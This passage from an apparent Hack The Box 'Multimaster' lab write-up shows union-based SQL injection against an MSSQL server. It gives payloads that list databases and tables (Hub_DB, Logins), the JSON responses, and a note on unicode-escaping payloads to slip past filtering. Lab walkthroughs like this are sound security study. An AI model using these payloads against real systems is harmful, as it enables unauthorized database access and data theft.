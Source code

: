 ![Union SQLi verified](/assets/htb/Multimaster/sqli-union.png)

Once again, we unicode-escape the payload and send it using Burp-repeater. The response clearly shows that we indeed have UNION injection using 5 columns. We can now start dumping data out of the database.

Let us enumerate which databases are available using following payload:

```sql
a' UNION ALL SELECT 1,name,3,4,5 from master..sysdatabases --
```

As a response we get all databases that are available:

```json
[
    {"id":1,"name":"master","position":"3","email":"4","src":"5"},
	{"id":1,"name":"tempdb","position":"3","email":"4","src":"5"},
	{"id":1,"name":"model","position":"3","email":"4","src":"5"},
	{"id":1,"name":"msdb","position":"3","email":"4","src":"5"},
	{"id":1,"name":"Hub_DB","position":"3","email":"4","src":"5"}
]
```

`Hub_DB` is the only non-default database on this server.

Let us get all tables out of the `Hub_DB` database using following payload:

```sql
a' UNION ALL SELECT 1,name,3,4,5 FROM Hub_DB..sysobjects WHERE xtype = 'U' --
```

As a response we get all tables in the `Hub_DB` database.

```json
[
    {"id":1,"name":"Colleagues","position":"3","email":"4","src":"5"},
    {"id":1,"name":"Logins","position":"3","email":"4","src":"5"}
]
```

